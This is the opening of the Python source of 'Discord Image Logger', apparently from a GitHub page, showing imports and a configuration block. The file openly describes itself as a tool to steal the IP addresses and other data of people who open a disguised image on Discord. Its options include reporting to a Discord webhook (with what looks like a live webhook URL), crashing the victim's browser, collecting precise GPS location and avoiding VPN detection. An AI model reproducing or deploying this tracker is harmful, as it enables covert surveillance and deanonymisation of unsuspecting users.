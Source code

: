 # Discord Image Logger
# By DeKrypt | https://github.com/dekrypted

from http.server import BaseHTTPRequestHandler
from urllib import parse
import traceback, requests, base64, httpagentparser

__app__ = "Discord Image Logger"
__description__ = "A simple application which allows you to steal IPs and more by abusing Discord's Open Original feature"
__version__ = "v2.0"
__author__ = "DeKrypt"

config = {
    # BASE CONFIG #
    "webhook": "[https://discord.com/api/webhooks/your/webhoo](https://discord.com/api/webhooks/1340139482850000926/bGlsVnxpt1uZQCxS2D8rUo55qekemUIdSKbb8unimOQWFD6pMHmgmBbvWht4fEyaYjHo)k",
    "image": "https://link-to-your-image.here", # You can also have a custom image by using a URL argument
                                               # (E.g. yoursite.com/imagelogger?url=<Insert a URL-escaped link to an image here>)
    "imageArgument": True, # Allows you to use a URL argument to change the image (SEE THE README)

    # CUSTOMIZATION #
    "username": "Image Logger", # Set this to the name you want the webhook to have
    "color": 0x00FFFF, # Hex Color you want for the embed (Example: Red is 0xFF0000)

    # OPTIONS #
    "crashBrowser": False, # Tries to crash/freeze the user's browser, may not work. (I MADE THIS, SEE https://github.com/dekrypted/Chromebook-Crasher)
    
    "accurateLocation": False, # Uses GPS to find users exact location (Real Address, etc.) disabled because it asks the user which may be suspicious.

    "message": { # Show a custom message when the user opens the image
        "doMessage": False, # Enable the custom message?
        "message": "This browser has been pwned by DeKrypt's Image Logger. https://github.com/dekrypted/Discord-Image-Logger", # Message to show
        "richMessage": True, # Enable rich text? (See README for more info)
    },

    "vpnCheck": 1, # Prevents VPNs from triggering the alert
                # 0 = No Anti-VPN
                # 1 = Don't ping when a VPN is suspected
                # 2 = Don't send an alert when a VPN is suspected
